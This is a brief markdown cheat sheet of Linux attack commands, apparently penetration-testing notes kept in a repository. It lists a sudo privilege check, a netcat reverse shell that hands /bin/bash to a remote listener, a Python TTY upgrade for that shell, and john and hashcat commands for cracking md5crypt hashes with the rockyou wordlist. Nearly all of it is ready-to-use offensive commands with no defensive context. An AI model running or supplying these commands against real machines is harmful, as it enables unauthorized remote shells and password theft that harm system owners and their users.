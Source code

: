 # Linux

- [Sudo](#sudo)
- [Reverse Shell](#reverse-shell)
- [Hash Bruteforce](#hash-bruteforce)

## Sudo
```
sudo -l
```

## Reverse Shell
### Client
```
nc ip 4444 -e /bin/bash
```
### Server
```
nc -lp 4444
```
### TTY Support
```
python -c 'import pty; pty.spawn("/bin/bash")'
```

## Hash Bruteforce
### john
```
john -format=md5crypt-long --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```
### Hashcat
```
hashcat -m 500 hash.txt /usr/share/wordlists/rockyou.txt
```

